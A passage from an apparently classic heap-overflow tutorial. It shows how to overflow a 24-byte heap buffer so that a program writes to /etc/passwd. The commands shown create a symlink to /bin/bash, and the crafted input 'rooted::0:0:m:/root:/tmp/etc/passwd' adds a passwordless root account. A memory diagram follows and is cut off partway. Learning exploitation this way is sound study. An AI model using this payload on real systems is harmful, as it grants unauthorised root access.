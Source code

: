 ```
# mkdir /tmp/etc
# ln -s /bin/bash /tmp/etc/passwd
```

So now /tmp/etc/passwd is a symlink to /bin/bash. Our input string would now look like:

```
rooted::0:0:me:/root:/tmp/etc/passwd
```

Now we need to make sure the overflown buffer will correctly aligned. In other words, we need to make sure that
/etc/passwd is exactly overflown into the buffer. Well we know that 24 bytes separate our userinput from our outputfile,
so we can make sure that everything before '/etc/passwd' equates to 24 bytes. This will ensure that the only thing
to overflow the outputfile buffer will be /etc/passwd from the end of our input string. Right now, the number of
character before '/etc/passwd' is 25 (count em). If we shrink this to 24, we might be in business. New input string

```
rooted::0:0:m:/root:/tmp/etc/passwd
```

24 bytes before /etc/passwd. OK now i am doing to draw this out in memory (like my crappy drawings before) so you
can see what is exactly happening, and then I will tell you how the program handles this string. Take a look
(this time I will show all 24 bytes for userinput so you get the whole picture, "/0" still means the NULL terminator).

* Heap

```
----------------
[ r ] <----- userinput
[ o ]
[ o ]
[ t ]
[ e ]
[ d ]
[ : ]
[ : ]
[ 0 ]
[ : ]
[ 0 ]
[ : ]
[ m ]
[ : ]
[ / ]
[ r ]
[ o ]
[ o ]
[ t ]
[ : ]
[ / ]
[ t ]
[ m ]
[ p ]
[ / ] <----- outputfile
[ e ]
[ t ]
[ c ]
[ / ]
[ p ]
[ a ]
```